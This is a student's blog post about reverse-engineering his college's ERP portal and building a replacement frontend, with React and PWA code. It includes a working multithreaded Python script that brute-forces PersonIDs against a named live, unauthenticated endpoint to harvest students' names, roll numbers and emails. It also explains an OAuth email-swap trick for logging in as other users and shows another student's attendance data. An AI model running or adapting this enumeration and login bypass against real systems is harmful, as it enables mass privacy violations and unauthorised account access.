

# REC COMPANION APP and how I OVERENGIEERED IT...

## PREAMBLE

My college has switched their ERP solution to a new one. So, i think everything
I say would be obsolute by the time I publish this blog.
Thanks to this project I learnt about API protection, multithreading and agricutlure
seems to be a easier field of work.

## WHERE IT ALL STARTED

It  was the year 2021 when i joined my college. I was very curious as
to what all the stuff they had in the college. Once i finished my first
internals. I was shocked to see that my results can be viewed in my college
portal which was to be accessed through my college mail id. As a person with a
very curious mindset. I got to work on how the backend API works. At that time
I didn't have that much knowledge regarding backend and frontend. I was into
programming and mostly focused on leetcode and problem solving. I had some
experience working with reverse engineering my school's android application.

**code lost in time sadly**  *:(*

## Idea was to create a better frontned

I was using a lot of different frontend for popular applications that that time.

- Invidious, newpipe, freetube as an alternative to YouTube
- Infinity for reddit
- nitter for twitter

So i was thinking it would be cool if i could make a frontend for my college
portal that didn't suck.

## REVERSE ENGINEERING

By 2022. I wanted to build a better portal for my peers because the official one
from college was shit. The backend APIS had 0 authentication they
queried and data was returned. It made it really easy to reverse engineer and
build applications around it. In fact there was already an existing solution as
a telegram bot. Okay, I should just use it and call it a day right. Wrong.
I didn't have telegram and using a telgram bot was unintutive and I really wanted
it to be a standalone application or a website.

## 0 AUTHENTHICATION WAS DONE ON THE BACKEND

Just going through how the reqeusts work in Chrome/Firefox devtools. In the
network tab i quickly found that they had 0 authentication for the api
endpoints.


By taking a closer look at the API call we can figure out we need
`PersonID` set to our ID to get our results.


hmm... how can i get this personID. I mean surely If i make so much noise brute forcing it
they will eventually find out and block me. I mean they surely have DDOS protections right...
right...
right..

## NO DDOS PROTECTION

So, I was learning how to do multithreading at the time using python. I was sure to put
my knowledge to the test by writing a quick multithreaded python script which i admit
is soo fucking overkill.

**[full code at github](https://github.com/Raxen001/new_rec_companion_app)**

### util/scraper.py

```python3
def add_user(unified_id, rollno, name, email):

    print(f"ADDING USER {rollno} {unified_id} {name} {email}")
    add_user_query = """
    INSERT INTO users (UNIFIED_ID, ROLLNO, NAME, EMAIL) values (%s,%s,%s,%s)
    """
    user_data = (unified_id, rollno, name, email)
    try:
        mycursor.execute(add_user_query, user_data)
        print(f'ADDED: {user_data}')
    except Exception as e:
        print(f"Error adding user {user_data}", e)

def make_request(payload):
    person_id = payload['PersonID']
    timeout = 60
    URL = 'http://rajalakshmi.in/UI/Modules/Profile/Profile.aspx/GetPersonInfo'
    try:
        response = requests.post(
            URL,
            json=payload,
            timeout=timeout,
        )
        response.raise_for_status()
        return person_id, response.status_code, response.json()
    except requests.exceptions.HTTPError as errh:
        return person_id, response.status_code, f"HTTP Error: {errh}"
    except requests.exceptions.ConnectionError as errc:
        return person_id, response.status_code, f"Error Connecting: {errc}"
    except requests.exceptions.Timeout as errt:
        return person_id, response.status_code, f"Timeout Error: {errt}"
    except requests.exceptions.RequestException as err:
        return person_id, response.status_code, f"Request Exception: {err}"

def minigun():
    list_of_users = []
    payloads = []
    for i in range(35000, 40000):
        # print(i)
        payloads.append(
            {
                'PersonID': i
            }
        )
    with concurrent.futures.ThreadPoolExecutor(max_workers=80) as executor:
        futures = {
            executor.submit(make_request, payload):
            payload for payload in payloads
        }

        count = 0
        total_count = 0
        for future in concurrent.futures.as_completed(futures):
            payload = futures[future]
            try:
                person_id, status_code, response = future.result()
                print(status_code)
                if status_code == 200:
                    list_of_users.append((person_id, response))
                    print("| FOUND USER: ", count,
                          "| TOTAL TRIES:", total_count, "|")
                    count += 1
            except Exception as e:
                print(
                    f"|PersonID: {person_id} \
                    | Payload: {payload} \
                    | Exception occurred: {e} |")

            total_count += 1

    count = 0
    for data in list_of_users:
        # person id
        person_id = data[0]
        # DATA
        details = data[1]['d']
        details = json.loads(details)
        # roll number
        try:
            rollnumber = details[0]['RollNumber']
        except KeyError:
            rollnumber = 0
        try:
            email = details[0]['CollegeEmail']
        except KeyError:
            email = ""
        # Name
        try:
            name = details[0]['Name'].strip('\t').replace(
                '\t', '').replace('..', '.').replace('  ', ' ')
        except Exception as e:
            print("Exception raised!", e)
            name = ""
        add_user(person_id, rollnumber, name, email)

        if count % 100 == 0:
            mydb.commit()
        count += 1

    mydb.commit()
    mydb.close()


```

On a high level how it works is
scraper.py -> will create a shit ton of threads
Each thread will create a request with a different personID and it will
wait till the promise is resolved once it gets a response from the server
either `personID`is valid or invalid.
if the personID is valid it will get added to the DB

### PROBLEMS

if the program freezes or my computer dies the DB data is lost as it wasn't commited.
So, i added so that every 100 person id it will commit to the database. So, it is easier to
recover from crashes.

It was all hacky and done in *30 min*. sooo, I know it can be optimized but it was a fire once a year
kind of script and i didn't bother optimizing it that much.


## TIME TO GET DATA FROM ENDPOINTS

For some odd reason every endpoint except the attendance and sem results is unprotected, we will
get back to those endpoints later for now

### `/get-info/photo/<int:rollno>`

- This endpoint allows us to download the image of the person
- it comes encoded in base64encoded
- 

### `/get-info/<int:rollno>`

- This endpoint returns person details
- name, gender, cgpa etc.,

### `/internal-marks/<int:rollno>`

- whooo the fun begins
- This endpoint made me almost quit this whole project
- This endpoint doesn't return a pre-determined output for every internals
- Each internal the result can vary and i have no clue why, this would have
taken more work than normal

- ```python3
        """
            'CATEST1'
            'CAT TEST1'
            'CAT TEST 1'
            'CATEST3(IIYEAR-FN)'
            'ASSIGNMENTI'
            I am gonna just check if 'TEST' is in the string. or ASSIGNMENT
            and a cat number(1,2,3)

            CourseName	"B.Tech-IT"
            EventTitle	"2022-23/ODD/CA TEST 1 / II Year/Regular/UG"
            FirstName	"********"
            PersonId	*****
            SectionName	"A"
            Semester	"3"
            SubjName	"Software Engineering Essentials"
            Total	null
            U1	0
            U2	0
            U3	0
            U4	0
            U5    0

            sometimes they just like to return a fucking null.
        """
  ```
- I just made some assumptions that a test should have some test in the result, assignments should have 'assignment' in the name
and proceeded to match it and add it to the data my endpoints returns.
- the old system doesn't have any way of seperating semester and CAT marks
meaning they just dump the data in the front end and it is horrible to search or see anything on a
mobile phone

#### OLD UNIFIED


#### NEW AND IMPROVED


### `/get-sems/<int:rollno>`

- This pretty much just returns the current semester courses assigned to the student
- I didn't think it would be of much use currently but came in clutch later

### `/sem-marks/<int:rollno>/`

- This return the list of all semster marks same as the internals marks the data was not usable as the API returned
data that wasn't really usable.
- I modified the data to my liking and returned from my endpoint to the frontend

### `/sem-marks/<int:rollno>/<int:sem>`

- same as previous endpoint but can specifiy a single semester to get results for, pretty useless, I implemented it anyways cause it wasn't
much work

### `/get-attendacne/<int:rollno>/`

- OOOHhhh boy. My college really doesn't want anyone to view the attendance without their implicit permission i guess
cause the whole project was going smoothly i was able to find the api endpoints and reverse engineer them by far
this was the worst one.
their endpoint had good auth, once we are logged in our session token gets stored on their server
and they only return the attendacne detail from the session token


- The unified login wasn't that great either they had email to enter

then they had oauth from google.
If after the oauth success if you use **burpsuite** or anyother packet sniffer tool
and forward a different email addres than the one you just entered it allows you to login
with that Email (ie: gain elevated privilages 🙀). Well I ain't gonna show the screenshots do it yourself.

- Need another way to get the the attendance meet
**http://rajalakshmi.in/UI/Modules/Profile/Profile.aspx/GetStudentAttendanceDetail** endpoint
This endpoint takes

```python3
  json_data = {
    "StartDate": st_date,
    "EndDate": today,
    "PersonID": person_id,
}
```

and will return

```json
[{'ABSENT': 53,
 'AttendanceDate': '22-01-2024',
 'NOTENTER': 0,
 'Name': 'RITHESH  S',
 'P1': None,
 'P2': 'A',
 'P3': 'P',
 'P4': None,
 'P5': 'P',
 'P6': None,
 'P7': None,
 'P8': None,
 'PRESENT': 355,
 'Percentage': 87.0,
 'Period1': '-NE-',
 'Period2': 'A- (IT19642)',
 'Period3': 'P- (IT19643)',
 'Period4': '-NE-',
 'Period5': 'P- (IT19643)',
 'Period6': '-NE-',
 'Period7': '-NE-',
 'Period8': '-NE-',
 'PersonId': 21412,
 'RollNumber': '211001084',
 'TDAYS': 316,
 'TotalAttennd': 408},
{'ABSENT': 53,
 'AttendanceDate': '23-01-2024',
 'NOTENTER': 0,
 'Name': 'RITHESH  S',
 'P1': 'A',
 'P2': 'A',
 'P3': 'P',
 'P4': 'A',
 'P5': 'P',
 'P6': 'A',
 'P7': 'P',
 'P8': None,
 'PRESENT': 355,
 'Percentage': 87.0,
 'Period1': 'A- (IT19P65)',
 'Period2': 'A- (IT19P65)',
 'Period3': 'P- (IT19644)',
 'Period4': 'A- (IT19642)',
 'Period5': 'P- (IT19644)',
 'Period6': 'A- (IT19642)',
 'Period7': 'P- (IT19641)',
 'Period8': '-NE-',
 'PersonId': 21412,
 'RollNumber': '211001084',
 'TDAYS': 316,
 'TotalAttennd': 408}
]
```

- so the the `AttendanceDate` specifies the date of attendance,
- we have to iterate through a list of json data.
- we can assume A means absent
- we can assume P means present
- we have 8 periods in a day
- `-NE-` we can ignore
- `(IT12312)` means subject code for the period
- if you recall there is a endpoint
[http://rajalakshmi.in/UI/Modules/Profile/Profile.aspx/GetStuCourse](http://rajalakshmi.in/UI/Modules/Profile/Profile.aspx/GetStuCourse)
- which gives all the subject ids and subject names for current semester
- all we have to do is select the semester start data using `st_date` and set
`end_date` to current semster and `PersonID` in the header and we will get
this list which we can calculate the attendance by adding all the present
calsses and absent calsses

- ```python3
    periods = [ "Period1", "Period2", "Period3", "Period4", "Period5", "Period6", "Period7", "Period8" ]
    classes = {}
    for day in data:
        for period in periods:
            if day[period] != '-NE-':
                tmp = day[period].split('- ')
                status = tmp[0]
                class_code = tmp[1]
                class_code = class_code.replace('(', '')
                class_code = class_code.replace(')', '')
                if class_code in subjnames:
                    if class_code in classes:
                        classes[class_code]['total'] += 1
                        if status == 'P':
                            classes[class_code]['present'] += 1
                        else:
                            classes[class_code]['absent'] += 1
                    else:
                        if status == 'P':
                            present = 1
                            absent = 0
                        else:
                            present = 0
                            absent = 1
                        classes[class_code] = {
                                "present": present,
                                "absent": absent,
                                "total": 1,
                                }

    for key, val in classes.items():
        per = float(val['present'])/float(val['total'])*100.0
        per = round(per, 2)
        classes[key]['percentage'] = per
        classes[key]['classname'] = subjnames[key]
        
    mod_data = []
    for key, val in classes.items():
        mod_data.append({
                "SubjName": key,
                "classname": val['classname'],
                "present": val['present'],
                "absent": val['absent'],
                "percentage": val['percentage'],
                "total": val['total']
                })
    return mod_data```
<!-- -  -->
- 

## ACHIEVED FEATURE PARITY WITH OFFICIAL UNIFIED 🎉🎉🎉

This took about 2 years in the making, I worked on this project on and off
as it was really my first real passion project. I learnt a lot. This project will always
be in my heart

It was active for around 2 months then which we were running out of money for the server and we pulled the plug
and subsequently new ERP came


we didn't have analytics running for a month. So, the true numbers maybe above 3K

I would have missed a lot of things since this project was a long time in the making i didn't document a lot of cool shit
contact me if you wanna know more.

## 2nd part of the puzzle the frontend

I decided to go with React + NextUI cause why not.
I also really wanted my application to be a PWA.

## Frontend

components used

- React
- Axios
- NextUI
- ReactRouterDom
- react loader spinner
- http-proxy-middleware

## for local testing i needed this in my middleware.js

```js
const proxy = require('http-proxy-middleware');

module.exports = function(app) {
  app.use(proxy('/api', {
    target: 'http://backend:9000',
    pathRewrite: {'^/api' : ''}
  }));
};
```

- nginx - docker - volume - fucked up service worker not registering properly
  aws decided to fuck us by only allowing 1 gb ram on free tier
Lot of code changes on the production server to make it run
Don't depend on other services, they might change how their APIs behave any
moment and your application will stop working

## PWA

Somehow i got the Progressive Web Apps to work and using a caching method which
made it so that user won't send request to the server everytime they want
something instead requests will be cached and be reused and only when needed
network requests are done

### PLEASE DO NOT DO THIS READ PWA DOCS AND USER SERVICE WORKERS TO PROPERLY CACHE THINGS

```js
useEffect(() => {
if (localStorage.getItem("JWT_TOKEN") === null) {
  console.log("NOT LOGGED IN");
  navigate("/login");
} else {
  setToken(localStorage.getItem("JWT_TOKEN"));
}
}, []);
```

the nightmare continues

```js
if (token !== "") {
  if(localStorage.getItem('sem-marks') === null){
    axios.defaults.headers.common['Authorization'] = `Bearer ${token}` 
    const url = `/api/sem-marks/`;
    axios
      .get(url, {})
      .then(function(response) {
        setData(response.data);
        localStorage.setItem('sem-marks', JSON.stringify(response.data));
        console.log("grade:", data);
      })
      .catch(function(error) {
        console.log(error);
        localStorage.clear();
        navigate("/login");
      });
  }
  else{
    setData(JSON.parse(localStorage.getItem("sem-marks")));
```

i later learnt this was not how it was supposed to be done
`sw.js` can do it so whenever we use fetch it does a custom functions
But everything worked having old unified as benchmark. Anything was better


## SCREENSHOTS

### OLD - UNIFIED


### NEW - DEVS COMPANION APP




## WON DESIGN THINKING


## CONCLUSION

As a project lead for the first technical club of REC. It was such a pleasure
to colloborate with everyone and learn together.
To more in the future

[GITHUB LINK TO THE PROJECT](https://github.com/Raxen001/new_rec_companion_app/ "")

[learn more about DEVSREC](https://devsrec.club/)
